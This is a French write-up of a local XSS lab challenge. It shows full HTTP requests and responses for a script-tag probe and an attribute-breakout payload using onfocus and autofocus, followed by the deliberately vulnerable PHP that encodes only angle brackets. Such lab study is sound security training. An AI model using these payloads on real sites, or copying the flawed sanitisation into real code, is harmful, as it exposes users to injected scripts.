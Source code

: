 # xss5

## Exploitation

Cinquième challenge. L'auteur indique qu'il encode maintenant les caractères `<` et `>` :&#x20;

![](<../../../.gitbook/assets/image (9) (3).png>)

Je tente la payload `<script>alert(1)</script>` afin de vérifier l'encodage. Le mot clé n'est pas réfléchi dans le message d'erreur mais en tant que valeur de l'attribut HTML `value` :&#x20;

![](<../../../.gitbook/assets/image (20) (3).png>)

Et les chevrons sont encodés en entités HTML :&#x20;

```http
POST /xss5/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 64
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss5/

search=%3Cscript%3Ealert%281%29%3C%2F%3Cscript%3E&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2159
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="&lt;script&gt;alert(1)&lt;/&lt;script&gt;" placeholder="keyword" required>
</div>
```

Seulement les chevrons sont encodés, il m'est alors possible de réutiliser la même technique d'attaque qu'au challenge xss2, `whatever" onfocus="alert(1)" autofocus x="` :&#x20;

```http
POST /xss5/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 80
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss5/

search=whatever%22+onfocus%3D%22alert%281%29%22+autofocus+x%3D%22&submit=Envoyer
```

```html
HTTP/1.1 200 OK
Server: Apache/2.4.53 (Debian)
X-Powered-By: PHP/8.0.18
Content-Length: 2160
Connection: close
Content-Type: text/html; charset=UTF-8

<div class="form-group col-md-2">
  <input type="text" class="form-control" id="search" name="search" value="whatever" onfocus="alert(1)" autofocus x="" placeholder="keyword" required>
</div>
```

Et cela fonctionne :

![](<../../../.gitbook/assets/image (49).png>)

## Analyse du code source

Le mot clé est bien réfléchi en tant que valeur de l'attribut HTML `value` mais un assainissement est tout d'abord effectué grâce à la méthode `xss_check()`. Cette méthode remplace les chevrons `<` et `>` en entités HTML :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }

  function xss_check($data) {
    // Converts only "<" and ">" to HTLM entities
    $input = str_replace("<", "&lt;", $data);
    $input = str_replace(">", "&gt;", $input);
    $input = urldecode($input);
    return $input;
  }
?>

<div class="row">
  <form name="forgetPass" method="post">
    <div class="form-group col-md-2">
      <input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo xss_check($keyword); }?>" placeholder="keyword" required>
    </div>
    <div class="form-group col-md-2">
      <input type="submit" class="form-control btn btn-default" name="submit">
    </div>
  </form>
</div>
```
